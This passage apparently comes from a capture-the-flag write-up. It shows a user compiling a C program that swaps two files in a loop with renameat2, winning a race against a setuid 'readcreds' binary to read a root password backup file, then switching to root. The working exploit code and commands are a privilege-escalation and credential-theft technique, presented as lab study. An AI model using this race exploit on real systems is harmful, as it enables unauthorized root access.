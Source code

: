 ```bash
frank@...:~/root_access$ cat rename.c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

```bash
frank@...:~$ ls
new_machine.txt  root_access  user.txt
```

```bash
frank@...:~$ cd root_access
```

```bash
frank@...:~/root_access$ ls
readcreds  readcreds.c  rename.c  root_password_backup
```

```bash
frank@...:~/root_access$ gcc rename.c -o rename
```

```bash
frank@...:~/root_access$ touch anything
```

```bash
frank@...:~/root_access$ ./rename anything root_password_backup
```

<h2>frank  .  Session 2</h2>

```bash
frank@...:~/root_access$ ./readcreds root_password_backup
Root Credentials:  root:******** 
```


<img width="978" height="72" alt="image" src="https://github.com/user-attachments/assets/bed72e6c-baa2-4d8f-bab3-8e9c412dadda" />

<br>
<br>

```bash
frank@...:~/root_access$ su root
Password:
```
